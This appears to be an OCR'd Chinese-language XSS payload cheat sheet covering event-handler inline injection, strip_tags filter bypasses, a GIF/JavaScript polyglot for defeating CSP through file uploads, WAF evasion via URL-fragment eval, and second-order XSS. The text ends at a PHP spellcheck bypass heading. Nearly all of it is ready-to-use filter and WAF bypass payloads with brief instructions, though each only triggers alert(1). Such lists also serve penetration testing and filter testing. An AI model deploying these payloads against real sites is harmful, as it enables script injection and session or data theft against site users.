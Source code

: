 

## HTML注入 - 内联代替方法

```javascript
"onpointerover=alert(1) //
"autofocus onfocusin=alert(1) //
```



## 基于Strip-Tags的绕过方法

**当过滤器移除`<`和`>`之间的所有内容时（例如PHP的`strip_rags()`函数），使用此方法。仅限内联注入  **

```javascript
"o<x>nmouseover=alert<x>(1)//
"autof<x>ocus o<x>nfocus=alert<x>(1)//
```



## 文件上传注入 - 伪装成HTML/JS的GIF文件

**同于通过文件上传绕过CSP（内容安全策略）。将以下所有内容保存为`xss.gif`或`xss.js`（用于严格的MIME类型检查）。可以通过`<link rel=import href=xss.gif>(或xss.js)或<script src=xss.js></script>`导入到目标页面。对于PHP，它时`image/gif`类型 **

```javascript
GIF89a=//<script>
alert(1)//</script>;
```



## 跳转到URL片段

**当需要隐藏某些可能触发WAF（Web应用防火墙）的字符时使用。它利用`URL`片段(`#`)后的有效payload格式**

```javascript
eval(URL.slice(-8)) #alert(1)
eval(location.hash.slice(1)) #alert(1)
document.write(decodeURI(location.hash)) #<img/src/onerror=alert(1)>
```



## 二阶 xss注入

**当你的输入会被使用两次时使用，例如先被存储并规范化到数据库中，随后被检索用于后续使用或插入到DOM中**

```javascript
&lt;svg/onload&equals;alert(1)&gt;
```



## PHP拼写检查绕过

**用于绕过PHP的 pspell_new 函数，该函数通过字典尝试猜测用户输入的搜索内容。这是一种类似于Google的`您是不是要找`功能，用于搜索字段 **
